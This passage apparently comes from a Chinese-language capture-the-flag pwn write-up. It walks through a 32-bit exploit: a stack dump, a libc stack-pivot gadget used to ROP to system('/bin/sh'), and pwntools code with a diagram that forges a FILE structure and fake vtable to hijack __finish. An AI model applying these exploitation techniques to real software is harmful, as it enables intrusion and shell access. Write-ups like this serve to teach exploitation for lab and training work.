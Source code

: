 ```
0e:0038│     0xffffcb34 —▸ 0xf7fcd000 ◂— 0x1afdb0
0f:003c│ ebp 0xffffcb38 —▸ 0xffffcb88 ◂— 0x0
10:0040│     0xffffcb3c —▸ 0x8048b14 (main+221) ◂— add esp, 0x10
11:0044│     0xffffcb40 —▸ 0x804c410 ◂— 0xfbad240c
12:0048│     0xffffcb44 —▸ 0x804b260 (name) ◂— '114514'
13:004c│     0xffffcb48 —▸ 0xffffcb88 ◂— 0x0
14:0050│     0xffffcb4c —▸ 0x8048a62 (main+43) ◂— sub esp, 8
15:0054│     0xffffcb50 ◂— 0x1
16:0058│     0xffffcb54 ◂— 0x8000
17:005c│     0xffffcb58 ◂— 0x5
18:0060│     0xffffcb5c ◂— '5aaaaaaabbbbbbbbccccccccdddddddd'
```

可以发现，此时esp和可控的位置之间相差了 0x60 个字节。于是我在libc中找到了这个gadget：

```
# 0x0005ae90 : xor eax, eax ; add esp, 0x6c ; ret
```

有了这个gadget，我们就可以愉快地ROP了！直接 system("/bin/sh") 就行。

### 结构体伪造

首先要伪造的是FILE结构体，其中我们需要关注的是flags字段和vtable字段。使用pwntools的API可以超级方便地完成这一步：

```python
    # fake file
    fileStr = FileStructure()
    fileStr.flags=0xffffdfff    # no _IO_IS_FILEBUF
    fileStr.vtable=0x0804B260   # name
```

根据vtable的定义，`__finish` 位于第三个指针处，在32位下就是0x8偏移处，因此我把它就直接放在name的地方。

最终伪造目标是这样（Fake Vtable除了__finish以外的值都不需要关心，因此我随意地在这里放了一个/bin/sh字符串）：

```
Name ─────►┌─────────────────┐ ─┬─
     Fake  │/bin/sh\0        │  │
     Vtable├────────┬────────┤  │
           │__finish│        │  │
           ├────────┴────────┤  │ 0x20
           │                 │  │
           │                 │  │
           │                 │  │
  fp ─────►├────────┬────────┤ ─┴─
           │fp+0x10 │        │
           ├────────┘        │
           │                 │
     ─────►├─────────────────┤
     Fake  │ Flag            │
     FILE

           ├─────────────────┤
           │(vtable)&name    │
           └─────────────────┘
```

